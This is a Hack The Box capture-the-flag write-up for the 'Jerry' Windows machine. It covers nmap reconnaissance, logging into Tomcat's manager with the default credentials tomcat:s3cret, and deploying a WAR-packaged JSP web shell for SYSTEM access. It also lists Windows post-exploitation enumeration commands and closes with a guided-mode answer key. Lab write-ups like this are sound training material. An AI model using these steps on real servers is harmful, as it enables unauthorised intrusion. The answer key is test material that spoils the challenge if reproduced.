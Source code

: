 # 🚀 Hack The Box: Jerry (Windows, Easy)

**by [a1i3n37x](https://github.com/a1i3n37x) · [Alien37.com](https://www.alien37.com)**

---

## ✨ Intro — Jerry

This is a box about awareness.

It’s a chance to practice recognizing what’s in front of you — and knowing what that means. You’ll learn to spot a vulnerable service, test assumptions carefully, and respond with the right kind of payload for the environment.

Jerry is built on fundamentals. There’s no trick, no twist. Just a web service running with too much power and no defenses.

What you’ll get from this box isn’t a challenge in complexity — it’s clarity.

---

## 📡 Reconnaissance — Jerry

Jerry only exposes a single port. No SSH, no RDP — just 8080.

```bash
nmap -sC -sV -Pn 10.10.10.95 -oN jerry-nmap.txt
```

No ping because HTB drops ICMP a lot. Here’s what came back:

```bash
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

The Tomcat version is **7.0.88** — old enough to raise concerns.

### 🧠 Tomcat Versioning — What to Watch For

- 7.x often ships with exposed Manager interfaces
- SSL and strong auth not enforced by default
- WAR deployment usually enabled
- If running as SYSTEM? Full compromise possible

Opened in browser:

```bash
http://10.10.10.95:8080
```

Got the default Tomcat page — misconfiguration confirmed.

---

## 🔍 Scanning & Enumeration — Jerry

Checked for Manager and Host Manager apps:

```
/manager/html
/host-manager/html
```

Prompted for HTTP Basic Auth — good sign. Used:

[Better Tomcat Default Cred List](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)

**Success:**

```text
tomcat:s3cret
```

Logged into **Web Application Manager**. Gained access to:

- Deployed apps
- Undeploy/reload
- Upload WAR files

---

## 💣 Gaining Access — Jerry

Used WAR upload form with a `msfvenom` payload — no shell.

Turns out: msfvenom payloads don’t always work on Tomcat.

### 🧠 Why msfvenom WARs Fail

- Embeds a binary inside `.jsp`
- Tomcat expects Java, not binaries
- Better: JSP web shell

Used a JSP shell from [tennc/webshell](https://github.com/tennc/webshell).

**WAR File Structure:**

```
browser-shell/
├── Browser.jsp
└── WEB-INF/
    └── web.xml
```

**web.xml**

```xml
<web-app>
  <servlet>
    <servlet-name>browser</servlet-name>
    <jsp-file>/Browser.jsp</jsp-file>
  </servlet>
  <servlet-mapping>
    <servlet-name>browser</servlet-name>
    <url-pattern>/browser</url-pattern>
  </servlet-mapping>
</web-app>
```

Deployed and hit:

```bash
http://10.10.10.95:8080/browser
```

**Shell loaded — `whoami` returned `nt authority\SYSTEM`**.

---

## 🧬 Post-Exploitation — Jerry

Already SYSTEM. No escalation needed.

```bash
hostname
ver
echo %cd%
```

Was in:

```text
C:\apache-tomcat-7.0.88\webapps
```

Searched for flags.

### ⚠️ SYSTEM Access = Full Compromise

- Read/write everything
- Dump creds
- Add users
- Pivot freely

### 🧪 Post-Ex Commands

```bash
whoami /priv
net user
net localgroup administrators
tasklist /v
ipconfig /all
```

---

## 🪙 Flag Capture — Jerry

Inside `C:\Users\Administrator\Desktop`:

```bash
2 for the price of 1.txt
```

**Both flags inside** — no separation.

---

## 🧭 Guided Mode Answers — Jerry

<details>
<summary><strong>Which TCP port is open on the remote host?</strong></summary>
8080
</details>

<details>
<summary><strong>Which web server is running on the remote host?</strong></summary>
Apache Tomcat
</details>

<details>
<summary><strong>Which relative path on the webserver leads to the Web Application Manager?</strong></summary>
/manager/html
</details>

<details>
<summary><strong>Valid username and password?</strong></summary>
tomcat:s3cret
</details>

<details>
<summary><strong>Which file type can be uploaded and deployed?</strong></summary>
.war
</details>

<details>
<summary><strong>Submit the flag on the user's desktop.</strong></summary>
Both flags are in: `2 for the price of 1.txt`
</details>

---

## 🧠 Lessons Learned — Jerry

- Tomcat on 8080 is a red flag
- Default creds are still everywhere
- JSP shells > reverse shells on older servers
- Always check privilege level early
- Don’t overcomplicate when the path is clear

---

## 🎓 CEH Summary — Jerry

**CEH Domains:**

- **Reconnaissance**: Nmap discovery of Tomcat on 8080
- **Enumeration**: Validated `/manager/html`, default creds
- **Exploitation**: WAR file upload with JSP shell
- **Privilege Escalation**: No escalation — direct SYSTEM access
- **Post-Exploitation**: Enumeration, flag capture, cleanup

**Key Takeaways:**

- Validate versions and exposed panels
- Default creds = still gold
- JSP shells offer control where reverse shells fail
- Always check your access level before escalating

> **“Two flags, one shell, and zero resistance. Jerry didn’t stand a chance. 👽”**

---

*Written by [a1i3n37x](https://github.com/a1i3n37x) · Hack The Box | [Alien37.com](https://alien37.com) 👽*
